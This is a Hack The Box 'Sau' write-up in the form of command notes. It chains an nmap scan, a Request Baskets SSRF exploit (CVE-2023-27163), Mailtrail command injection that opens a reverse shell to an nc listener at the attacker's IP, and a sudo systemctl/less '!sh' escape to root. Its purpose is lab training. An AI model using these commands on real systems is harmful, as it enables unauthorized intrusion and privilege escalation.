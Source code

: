 # 💎 HTB: Sau - Command Notes

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.224  # Full TCP port scan
nmap -p 22,55555 -sCV 10.10.11.224      # Service/version detection on discovered ports
```

> Open ports: 22 (SSH), 55555 (HTTP - Request Baskets service)

---

## 🧪 SSRF Exploitation (CVE-2023-27163)

**Tool/POC**:  
[Request Baskets SSRF GitHub PoC](https://github.com/entr0pie/CVE-2023-27163)

```bash
./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

> Uses SSRF to proxy internal services (e.g., Mailtrail on localhost)

---

## 🐚 Command Injection via Mailtrail (v0.53)

**Tool/POC**:  
[Mailtrail RCE GitHub Repo](https://github.com/sf7-sf7/Mailtrail-RCE)

```bash
nc -lvnp 443  # Listener

# Adjusted Mailtrail RCE script to target SSRF basket URL:
python mailtrail_rce.py 10.10.14.6 443 http://10.10.11.224:55555/<basket-id>
```

> Drops a reverse shell as `puma`

---

## 🧑‍💻 Shell Upgrade

```bash
script /dev/null -c bash
# Press Ctrl+Z
stty raw -echo; fg
reset
```

> Stabilizes the reverse shell

---

## 🧠 Privilege Escalation - Root via `less` + `systemctl`

```bash
sudo -l
# Shows: (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

sudo /usr/bin/systemctl status trail.service
# If output opens in less, type: !sh
```

> Less pager exploit: gain interactive shell as root via `!sh`

---

## 📂 Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```